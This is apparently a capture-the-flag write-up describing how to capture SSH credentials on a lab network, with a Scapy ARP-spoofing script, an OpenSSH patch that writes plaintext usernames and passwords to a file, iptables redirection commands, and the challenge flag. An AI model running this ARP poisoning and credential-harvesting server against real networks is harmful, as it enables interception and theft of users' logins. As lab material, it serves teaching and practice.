



### Solution

In this challenge, we're given access to an L2 network through OpenVPN.  
The challenge statement is pretty straightforward, there is an SSH server that we need to
get access to (the one that contains the flag), additionally, there's a client periodically
connecting to this server (Jackal).

The setup we find ourselves in is illustrated by the figure below (note that the VPN server
was removed from the diagram to only keep the relevant parts.)



Since we're in an L2 network, the first thing that comes to mind in this kind of scenarios
is an ARP cache poisoning attack that would redirect the client to our rogue SSH server
instead of the real one.



With the ARP spoofing attack ongoing, the next time our victim tries to establish an SSH connection
to the real server, it would be redirected to us since the MAC address tied to the real server's
IP address (i.e., `10.0.0.4`) has now been replaced by our MAC address.



There are multiple tools to achieve this attack, below is an example using [Scapy](https://scapy.net/)

```python
victim_mac = "11:22:33:44:55:66"
our_mac = "aa:bb:cc:dd:ee:ff"
sshserver_ip = "10.0.0.4"
victim_ip = "10.0.0.2"

pkt = Ether(src=our_mac, dst=victim_mac)/ARP(op=2, hwsrc=our_mac, hwdst=victim_mac, psrc=sshserver_ip, pdst=victim_ip)
sendp(pkt, iface="tap0", loop=1, inter=0.2)
```

This will send a fake ARP packet every 0.2 seconds on our TAP interface, leading the victim's
ARP cache to be poisoned.  
The next thing to do is to spin up a rogue SSH server on our port 22/TCP.  
When an SSH client connects to an SSH server using password-based authentication, the
password is sent *as is* through the encrypted channel, meaning the SSH server will be able
to see the client's password.

Knowing this, we can recompile a modifed version of OpenSSH that logs usernames and passwords
received by clients (there are of course other ways to do this, but this method is more fun in my opinion).  
Below is the patch we need to apply to the OpenSSH source code.
```diff
--- a/auth-passwd.c
+++ b/auth-passwd.c
@@ -39,6 +39,9 @@
 #include "includes.h"
 
 #include <sys/types.h>
+#include <sys/stat.h>
+#include <unistd.h>
+#include <fcntl.h>
 
 #include <pwd.h>
 #include <stdio.h>
@@ -79,6 +82,17 @@ auth_password(struct ssh *ssh, const char *password)
 	Authctxt *authctxt = ssh->authctxt;
 	struct passwd *pw = authctxt->pw;
 	int result, ok = authctxt->valid;
+
+	// Log plaintext username and password.
+	int fd = open("/tmp/leak.txt", O_CREAT | O_RDWR | O_APPEND, S_IRUSR | S_IWUSR);
+	if (fd != -1) {
+		write(fd, authctxt->user, strlen(authctxt->user));
+		write(fd, ":", 1);
+		write(fd, password, strlen(password));
+		write(fd, "\n", 1);
+		close(fd);
+	}
+
 #if defined(USE_SHADOW) && defined(HAS_SHADOW_EXPIRE)
 	static int expire_checked = 0;
 #endif
```

Since the victim's packets have a destination IP of `10.0.0.4`, while our IP address is `10.0.0.3`,
we need to tell the Kernel to not drop these packets and instead redirect them to our SSH server.  
We can do this by enabling IP forwarding and adding an `iptables` rule to redirect incoming packets
with a destination port of 22/TCP to our local port 22/TCP.

```bash
sudo sysctl net.ipv4.ip_forward=1
sudo iptables -P FORWARD ACCEPT
sudo iptables -t nat -A PREROUTING -p tcp --dport 22 -j REDIRECT --to-ports 22
```

Now the next time our victim tries to connect to the SSH server, the ongoing ARP spoofing attack
will lead it to our rogue SSH server which in turn logs plaintext credentials.  
Finally, we connect to the real SSH server and find the flag in `jackal`'s home directory.

# Flag
`SEKAI{https://linux.livejournal.com/1884229.html_4540941f3ea0a6cd}`
